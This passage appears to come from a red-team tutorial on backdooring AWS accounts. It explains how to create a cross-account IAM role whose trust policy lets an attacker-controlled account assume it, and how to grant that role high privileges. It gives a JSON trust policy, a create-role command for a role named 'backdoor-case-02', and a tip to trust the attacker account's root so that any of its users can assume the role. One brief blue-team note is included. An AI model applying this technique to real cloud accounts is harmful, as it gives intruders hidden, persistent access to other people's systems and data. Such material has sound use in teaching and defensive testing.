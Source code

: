 Now all we need to do is to export these keys and use them. We can always generate a new one whenever the current one expires.


## Persistence - AssumeRole
An IAM Role is quite the same as an IAM User in the sense that roles have permissions through policies that define what actions a role is allowed to perform. The difference is that a role is **shared**; other resources can `assume` a role when required (provided those resources have permissions) and perform actions as that role. Another difference is that a role does not have long-term credentials (`Access Key`), they only have temporary credentials which are generated when they are assumed.

I just mentioned the term **assuming** the role. Each role has a policy called `Trust Policy` which defines who can assume it (get its temporary credentials). We define this policy while creating a new role or we can update it for the existing roles.

### Tidbits
- As an adversary, since our goal is to create a backdoor in the target account, we should create a new role (we can also use existing roles) while setting the assume-role policy such that we can assume this role from outside of our target account (where this role is created). This is called `cross-account access`.
- After creating the role, we should also assign this role higher privileges so we can fully utilize our backdoor.

> Instead of specifying the ARN of a single specific user (controlled by you) in the `Principal` property of the assume-role policy document, it's better to use the `root` user as it will eventually mean that any user from the specified account can assume this role. 
>
> Example: `arn:aws:iam::Attacker's-Account-ID:user/root`
>
> **For Blue team:** it’s a best practice to use the `Principal` property to only allow specific principals or paths to assume a role. 
{: .prompt-tip}

### Creating Backdoored Role
We will start by creating a new role and attaching an assume-role policy document to it. Let's first check out the content of our policy document:

```json
{
     "Version": "2012-10-17",
     "Statement": [
     {
         "Effect": "Allow",
         "Principal": {
             "AWS": "arn:aws:iam::xxxxxxxxxxxx:user/fawaz"
         },
     "Action": "sts:AssumeRole",
     "Condition": {}
    }]
}
```

Where the `xxxxxxxxxxxx` is the AWS account-ID of the account that we control. Let's create a new role by specifying the assume role policy document:
```bash
aws iam create-role --role-name backdoor-case-02 --assume-role-policy-document file:///home/mystic/policies/assume-role-policy.json
```

